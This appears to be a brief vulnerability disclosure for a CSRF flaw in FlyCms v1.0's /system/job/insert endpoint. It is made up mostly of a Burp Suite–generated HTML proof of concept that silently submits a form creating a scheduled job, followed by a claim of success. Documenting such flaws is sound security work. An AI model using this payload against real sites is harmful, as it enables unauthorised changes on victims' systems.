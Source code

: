 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/job/insert

![图片1](1.png)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/job/insert" method="POST">
      <input type="hidden" name="beanName" value="cs" />
      <input type="hidden" name="methodName" value="cs" />
      <input type="hidden" name="cronExpression" value="0&#47;10&#32;&#42;&#32;&#42;&#32;&#42;&#32;&#42;&#32;&#63;&#32;&#42;" />
      <input type="hidden" name="params" value="cs" />
      <input type="hidden" name="remark" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![图片](2.png)

Successed

![图片](3.png)
